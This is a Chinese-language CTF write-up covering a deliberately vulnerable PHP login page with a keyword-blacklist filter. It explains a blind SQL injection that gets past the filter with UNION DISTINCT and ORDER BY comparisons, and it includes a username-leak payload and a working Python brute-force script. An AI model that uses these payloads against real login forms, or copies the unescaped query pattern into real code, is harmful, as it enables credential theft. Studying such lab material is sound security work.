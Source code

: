 ## 一个好玩的sql注入姿势(感谢pcat牛不吝赐教)

### 代码如下:

```php
<?php
  $dbhost = "localhost";
  $dbuser = "root";
  $dbpass = "123456";
  $db = "ctf";
  $conn = mysqli_connect($dbhost,$dbuser,$dbpass,$db);
  mysqli_set_charset($conn,"utf8");

  /* sql

     create  table `admin` (
        `id` int(10) not null primary key auto_increment,
        `username` varchar(20) not null ,
        `password` varchar(32) not null
     );
  */
function   filter($str){
      $filterlist = "/\(|\)|username|password|where|
      case|when|like|regexp|into|limit|=|for|;/";
      if(preg_match($filterlist,strtolower($str))){
        die("illegal input!");
      }
      return $str;
  }
$username = isset($_POST['username'])?
filter($_POST['username']):die("please input username!");
$password = isset($_POST['password'])?
filter($_POST['password']):die("please input password!");
$sql = "select * from admin where  username =
 '$username' and password = '$password' ";

$res = $conn -> query($sql);
if($res->num_rows>0){
  $row = $res -> fetch_assoc();
  if($row['id']){
     echo $row['username'];
  }
}else{
   echo "The content in the password column is the flag!";
}

?>
```
题目说 password的字段的值,就是flag.那就要想办法读取password的内容

但是题目的过滤规则还是比较坑的:
```php
$filterlist = "/\(|\)|username|password|where|
case|when|like|regexp|into|limit|=|for/";
```
这些字符都不能出现,限制的比较坑的有一下两条:
1. 没有了括号,标志着没有办法用mysql里的函数了.
2. 没有了password,但是它却是字段名,所以sql语句中不能出现password这个列名

想搞明白,先看下面两个sql语句
![](./image/1.png)
mysql的字符串排序操作是从前往后一一用ascii码比对的.我们可以利用这个特性,来进行注入.
```sql
select * from ctf.admin  where username = 'admin'  union
distinct  select 1,2,0x38 order by 3 desc ;
```
我们可以控制后面的那个查询的第三个字段,让他从最小开始变化,当查询结果第一条返回的username字段是2的时候,我们就知道这个字符的ascii码减一就是跟数据库中的相等.所以就可以一位一位的猜出来password字段了.

但是在操作之前,我们需要先得到数据库中的用户名,这个简单
```
只需要提交: username='^1^1#&password=1
```
就可以看到一个用户名了.
python的poc如下
```python
#!/usr/bin/python
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://127.0.0.1/web200/index.php"
    testStr = makeStr(48,127)
    username = "admin' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "admin" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i

if __name__== '__main__':
    getPassword()
```
但是这里有个bug,因为mysql不区分大小写,他认为 D与d相等的.
所以最后跑出来的,全是大写的:
![](./image/2.png)

不过这样无所谓了,一般数据库中存储的MD5值都是小写,如果实在不行,就爆破一下,反正也不多.
